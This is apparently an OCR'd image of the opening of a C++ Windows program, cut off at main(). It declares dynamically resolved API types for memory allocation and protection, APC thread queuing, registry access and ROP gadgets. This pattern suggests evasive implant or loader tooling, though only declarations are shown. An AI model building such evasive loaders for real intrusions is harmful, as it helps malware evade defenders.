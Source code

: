   
```cpp
#include <Windows.h>
// #include <stdio.h>
#include "addresshunter.h"

#define FREE

#define MOV_SPACE 12
#define PAGE_SIZE 4096
#define N_ROP_GADGETS 7

typedef HMODULE(WINAPI* LoadLibraryType)(LPCWSTR lpLibFileName);
typedef LPVOID(WINAPI* VirtualAllocType)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
typedef BOOL(WINAPI* VirtualProtectType)(LPVOID lpAddress, SIZE_T dwSize, DWORD flNewProtect, PDWORD lpflOldProtect);
typedef BOOL(WINAPI* VirtualFreeType)(LPVOID lpAddress, SIZE_T dwSize, DWORD dwFreeType);
typedef BOOL(WINAPI* VirtualQueryType)(LPCVOID lpAddress, PMEMORY_BASIC_INFORMATION lpBuffer, SIZE_T dwLength);
typedef void (WINAPI* SleepType)(DWORD dwMilliseconds);

#ifdef APC
typedef DWORD(WINAPI* QueueUserAPCType)(PAPCFUNC pfnAPC, HANDLE hThread, ULONG_PTR dwData);
typedef HANDLE(WINAPI* CreateThreadType)(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
#else
typedef DWORD(WINAPI* SleepExType)(DWORD dwMilliseconds, BOOL bAlertable);
typedef HANDLE(WINAPI* CreateThreadType)(LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);
typedef DWORD(WINAPI* WaitForSingleObjectType)(HANDLE hHandle, DWORD dwMilliseconds);
#endif

typedef BOOL(WINAPI* CloseHandleType)(HANDLE hObject);
typedef HANDLE(WINAPI* GetCurrentThreadType)();
typedef HANDLE(WINAPI* CreateMutexType)(LPSECURITY_ATTRIBUTES lpMutexAttributes, BOOL bInitialOwner, LPCWSTR lpName);
typedef BOOL(WINAPI* ReleaseMutexType)(HANDLE hMutex);

typedef LSTATUS(WINAPI* RegOpenKeyType)(HKEY hKey, LPCWSTR lpSubKey, PHKEY phkResult);
typedef LSTATUS(WINAPI* RegGetValueType)(HKEY hkey, LPCWSTR lpSubKey, LPCTSTR lpValue, DWORD dwFlags, LPDWORD pdwType, PVOID pvData, LPDWORD pcbData);
typedef LSTATUS(WINAPI* RegSetValueExType)(HKEY hKey, LPCWSTR lpValueName, DWORD Reserved, DWORD dwType, CONST BYTE* lpData, DWORD cbData);
typedef LSTATUS(WINAPI* RegCloseKeyType)(HKEY hKey);


typedef void* (WINAPIV* memsetType)(void* dest, int c, size_t count);
typedef void* (WINAPIV* memcpyType)(void* dest, const void* src, size_t count);
typedef int (WINAPIV* memcmpType)(const void* buffer1, const void* buffer2, size_t count);
typedef void (WINAPI* ExitThreadType)(DWORD dwExitCode);
#ifdef _DEBUG
typedef void (WINAPIV* printfType)(const char* fmt, ...);
#endif


int main()
{

    // DLLs to dynamically load during runtime
    HMODULE kernel32dll, msvcrtdll, advapi32dll, ntdll;

```